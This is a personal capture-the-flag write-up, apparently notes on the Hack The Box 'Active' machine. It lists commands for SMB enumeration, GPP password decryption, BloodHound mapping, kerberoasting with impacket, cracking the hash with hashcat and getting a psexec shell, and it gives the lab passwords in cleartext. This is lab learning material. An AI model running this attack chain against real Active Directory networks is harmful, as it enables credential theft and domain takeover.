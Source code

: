 [[Enumeration]][[nmap]]
#Enumeration #nmap
`nmap -sC -sV -oA nmap/active 10.10.10.100`
`-sC for default scripts`
`-sV for enumerate all versions`
`-oA output all formats`
![[Pasted image 20241209204527.png|nmap scan]]
Key things to note:
* DNS open with version 6.1.7601 which means version 7 = Windows 2008 or Windows service pack 1. If it was 9000 range it would be 2012 = Windows 10. 
* If Kerberos is open then look for LDAP and if they're both open, assume you're on Windows AD box.
* domain name = active.htb -> edit `/etc/hosts` to include
![[Pasted image 20241209205206.png]]

#Enumeration 
#nslookup to find the hostname
`nslookup 10.10.10.100`
#dnsrecon
`dnsrecon -d 10.10.10.100 -r 10.0.0.0/8`
#smbclient
`smbclient -L //10.10.10.100`
![[Pasted image 20241209210112.png]]
#enum4linux (outdated)
`enum4linux 10.10.10.100`
#smbmap
`smbmap -H 10.10.10.100`
![[Pasted image 20241209210439.png]]
List the contents of the Replication share using smbmap
`smbmap -R Replication -H 10.10.10.100` -> 
my run: `smbmap -H 10.10.10.100 -r Replication --depth 10
`
Discover groups.xml file 
![[Pasted image 20241209211157.png]]
Download groups.xml using smbmap
`smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q`

my run: `smbmap -H 10.10.10.100 --download 'Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml'`
Run 
`locate Groups.xml`
to see the location smbmap has stored the file. 
![[Pasted image 20241210181609.png]]
#credentialaccess
Run `less` against the file to grab an encrypted password
![[Pasted image 20241210181744.png]]
Use `gpp-decrypt` to decrypt the password
![[Pasted image 20241210181946.png]]
This #gpp tool is within Kali's repo. 

Alternate method to get these credentials using #smbclient 
`smbclient //10.10.10.100/Replication`
`mget *`
`recurse ON`
`prompt OFF`
`mget *`
All files will get downloaded
`find . -type f`
Notice group policy file
![[Pasted image 20241210183104.png]]
Install #impacket
Run `GetADUsers.py -all  -dc-ip 10.10.10.100 active.htb/svc_tgs`
Enter password found for svc_tgs
Result
![[Pasted image 20241210183649.png]]
Look for more network shares
`smbmap -d active.htb -u svc_tgs -p GPPStillStandingStrong2k18 -H 10.10.10.100`
![[Pasted image 20241210184144.png]]
Cannot psexec because user is not an admin.

Switch to Windows box to use these credentials

Open command prompt and run 
`runas /netonly /user:active.htb\svc_tgs`
![[Pasted image 20241210184728.png]]
Confirm access with
`dir \\10.10.10.100\Users`

After initial access is gained, copy #Bloodhound over. 

![[Pasted image 20241210185013.png]]
`python -m SimpleHTPPServer`

Just open web browser on Windows box and navigate to IP address of linux box over port 80 to download #sharphound.exe

Run `Sharphound.exe`
`.\Sharphound.exe -c all -d active.htb --domaincontroller 10.10.10.100`
This fails. 
Troubleshooting steps:
1. Test connection to ldap `Test-Connection -ComputerName 10.10.10.100 -Port 389`
2. Run Sharphound again with Wireshark open
3. Set DNS server to 10.10.10.100   in IP Properties ![[Pasted image 20241210185923.png]]
Sharphound results:
![[Pasted image 20241210190158.png]]
Switching back to Kali box to view the contents of Bloodhound. 

Start #neo4j

`neo4j start`

`cd Bloodhound-linux-x64`

`./Bloodhound`

![[Pasted image 20241210190538.png]]

Refresh screen by pressing f5

Drag and drop BloodHound.zip file into the BloodHound window. 

Searching through BloodHound

![[Pasted image 20241210190809.png]]

Look at common queries. 

Search "Find Shortest Paths to Domain Admin"

![[Pasted image 20241210190914.png]]
Search "Shortest Paths from Kerberoastable Users"

Discover the user "Administrator" is kerberoastable. 

This means we can run #impacket again using #GetUserSPNs .py

Run `GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs`
Enter password for svc_tgs. 

Successful #kerberoasting

![[Pasted image 20241210191620.png]]
Search for which mode of #hashcat to use on hashcat.net search: example hashes to crack admin password. 

we have krb5tgs. 

Save hash to a file. 

Use #hashcat for #passwordcracking 

`hashcat -m 13100 hashes/active.htb /opt/wordlist/rockyou.txt 
`
Retrieve admin password from this crack. 

`TicketMaster1968`

Finally use admin password with #psexec to get root.txt

`psexec.py active.htb/Administrator@10.10.10.100`

